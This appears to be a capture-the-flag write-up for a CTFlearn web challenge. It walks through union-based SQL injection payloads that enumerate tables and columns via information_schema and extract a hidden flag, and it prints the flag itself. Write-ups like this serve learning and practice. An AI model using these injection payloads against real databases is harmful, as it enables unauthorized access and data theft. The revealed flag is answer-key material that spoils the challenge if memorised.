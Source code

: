## injection
The main idea finding the flag is get flag using progressive SQL exploits to get into database.

#### Step-1:
After I visited https://web.ctflearn.com/web8/, the following is the list of commands that I input one by one to get the flag. Its progressive and you have to do it by checking corresponding tables and corresponding columns simultaneously.

#### Step-2:
Commands:

```sql
1 union select 1,2,3,4 #
1 union select table_name,2,3,4 from information_schema.tables #
```

After these, we find `w0w_y0u_f0und_m3` table to access it.

#### Step-3:

```sql
1 union select table_name,column_name,3,4 from information_schema.columns #
```
This gives us a column called `f0und_m3`.

This gives us last command.

```sql
1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3 #
```

<img src="Flag.png">

#### Step-4:
Finally the flag becomes: 
`abctf{uni0n_1s_4_gr34t_c0mm4nd}`
